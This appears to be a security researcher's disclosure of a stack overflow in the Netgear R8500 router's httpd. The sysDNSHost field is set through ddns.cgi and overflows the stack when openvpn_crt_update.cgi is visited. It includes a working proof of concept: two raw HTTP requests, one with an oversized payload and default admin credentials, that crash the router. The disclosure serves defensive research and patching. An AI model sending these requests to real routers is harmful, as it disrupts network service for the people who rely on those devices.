




# Netgear Vulnerability

Vendor:Netgear

Product:R8500

Version:1.0.2.160

Type:Stack Overflow

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in Netgear router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In the router's `ddns.cgi` function, `sysDNSHost` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `sysDNSHost` to execute arbitrary code.

As you can see here, the input has not been checked. And then,call the function `acosNvramConfig_set ` to store this input.

<div  align="center"></div>

Eventually, in `openvpn_crt_update.cgi` function. The parameter `sysDNSHost` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

In `libacos_shared.so` binary:

<div  align="center"></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `sysDNSHost`, in `ddns.cgi`
* visit the `openvpn_crt_update.cgi`


## PoC

We set `sysDNSHost` as **aaaaa......**, in `ddns.cgi`

```http
POST /ddns.cgi?id=a0d19ee341279730dc4260ca7fdec9fa7dffa7ac8f58e24dba98ca806369c4d4 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0a
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1387
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/DNS_ddns.htm
Cookie: XSRF_TOKEN=1596911579
Upgrade-Insecure-Requests: 1

cfAlert_Apply=%E5%BA%94%E7%94%A8&sysDNSActive=dnsEnable&sysDNSProviderlist=3&sysDNSHost=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&sysDNSUser=pjqwudi&sysDNSPassword=abc123&account=no&sysDNSHost_Netgear=&sysDNSEmail_Netgear=&sysDNSPassword_Netgear=&sysDNSHost_Netgear_account=&sysDNSEmail_Netgear_account=&sysDNSPassword_Netgear_account=&host_graycheck=-1&email_graycheck=-1&password_graycheck=-1&tos_graycheck=-1&success_status=2
```

<div  align="center"></div>

visit the `openvpn_crt_update.cgi`

```http
POST /openvpn_crt_update.cgi?id=7b98fbab9e0d93bc30e8b5cce42772a14d97dd486c7c36ac74f787793260a4ec HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/openvpn_crt_update.htm
Cookie: XSRF_TOKEN=1596911579
Upgrade-Insecure-Requests: 1

buttonHit=update_vpn_cert&buttonValue=%E6%9B%B4%E6%96%B0&update_vpn_cert=+%E6%9B%B4%E6%96%B0&progress=
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
